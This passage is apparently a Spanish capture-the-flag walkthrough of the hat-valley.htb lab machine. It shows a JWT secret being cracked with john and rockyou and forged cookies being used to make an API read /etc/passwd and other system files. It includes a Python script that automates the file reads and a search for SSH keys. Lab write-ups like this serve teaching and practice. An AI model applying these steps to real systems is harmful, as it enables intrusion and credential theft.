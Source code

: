 Pero no sirven para store.hat-valley.htb ```curl -s http://store.hat-valley.htb -u "christopher.jones:chris123"```
Pero en la pagina de hr si haces logout y te vuelves a conectar como el tio este ya entras.

Su cookie es:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc1NjgwNDcwfQ.1lRSAkmfilspBEASNzPB8qnd1QomSFaDdCvWwAro9iw
```

Sacamos el secreto para crear cookies...
```console
└─$ ./jwt2john.py "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c..." > hash
└─$ john -w=/usr/share/wordlists/rockyou.txt hash  # 123beany123      (?)
```

--------------------------------------------
## Part 5: LFI mediante la cookie

Si en jwt.io cogemos la cookie de Christofer y le modificamos el user a ```/' /etc/passwd '```
```console
└─$ curl -s http://hat-valley.htb/api/all-leave -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6Ikp"
christopher.jones,Donating blood,19/06/2022,23/06/2022,Yes
christopher.jones,Taking a holiday in Japan with Bean,29/07/2022,6/08/2022,Yes

└─$ curl -s http://hat-valley.htb/api/all-leave -H "Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
root:x:0:0:root:/root:/bin/bash
```
![awkward5](https://user-images.githubusercontent.com/96772264/221432884-4aa94d76-abeb-4a3e-93b0-c9b15449d3fd.PNG)

Como hacer cada cookie manualmente con el jwt.io es un poco rollo, mejor hacer un script en python que lo 
automatize todo.
```python
import jwt, requests

paths = ["/etc/passwd", "/proc/net/tcp", "/etc/hostname", "/etc/hosts", "/etc/crontab"]
for path in paths:
    cookie = jwt.encode({"username": "/' " + path + " '", "iat": 1677407978}, "123beany123", algorithm="HS256")
    req = requests.get("http://hat-valley.htb/api/all-leave",cookies={"token":cookie})
    print(req.text)
```
Los usaurios del sisteam son: bean y christine aparte de root.
El output de la ruta /proc/net/tcp lo he metido en el archivo ports para tratarlo.
```console
└─$ for port in $(cat ./ports | awk '{print $2}' | awk '{print $2}' FS=":" | sort -u); do echo "$((16#$port))" | tr "\n" "," | sed "s/,/, /g" ; done
22, 25, 53, 80, 3002, 3306, 8080, 33060, 39518, 39534, 42542, 48484, 56174, 56190,  
```
Como no he encontrando nada mas interesante busco por los archivos de cada usaurio (bean y christine):
- /home/usaurio/.ssh/id_rsa -> de ninguno  
- /home/usaurio/.bashrc | grep -E "\.py|\.sh|\.c|\.php" -> alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
